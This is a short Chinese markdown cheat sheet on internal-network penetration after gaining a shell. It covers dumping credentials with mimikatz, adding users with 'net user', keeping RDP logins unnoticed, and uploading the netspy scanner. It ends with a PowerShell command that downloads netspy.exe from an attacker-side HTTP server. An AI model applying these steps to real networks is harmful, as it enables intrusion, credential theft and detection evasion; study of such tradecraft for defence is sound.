 ```yaml
---
date: 2023-03-04
---
```


# 内网渗透

---

## 远程登录

拿到 shell 之后需要登录的话可以用 `mimikatz` 之类的工具尝试获取主机密码, 如果能拿到明文密码的话就能够远程登录了

或者用 `net user` 命令创建新用户来进行登录(不过相比直接拿原有账密的密码而言, 这种操作太容易被发现了(⊙x⊙;))

- 选择合适的实际直接 RDP 过去是一种可行的方案, 不过默认情况下 Windows 只允许一个用户通过远程桌面连接登录, 如果挤掉了其他远程连接用户的话那么就被发现了

  > Win7 下拿到 shell 之后似乎可以通过在命令行中通过修改系统注册表来实现
  >
  > [How to enable multiple logon remote desktop in Windows 7 - Super User](https://superuser.com/questions/64171/how-to-enable-multiple-logon-remote-desktop-in-windows-7)

- Telnet

- SSH

- Powershell Remoting

- 第三方远程工具, 如 TeamViewer, VNC, PC Anywhere

> 除了 RDP 这一常用功能外, 其他的工具都或多或少需要在远控主机上进行相应的配置, 容易留下痕迹, 因此按下不表

---

## 内网信息收集

走代理扫描容易丢包, 推荐将扫描工具上传后扫描

---

### netspy

> netspy是一款快速探测内网可达网段工具(深信服深蓝实验室天威战队强力驱动) 

可以在 [Releases · shmilylty/netspy (github.com)](https://github.com/shmilylty/netspy/releases) 下载可执行文件压缩包


```
iwr -Uri http://100.1.1.138:8000/download/netspy.exe -OutFile netspy.exe
```


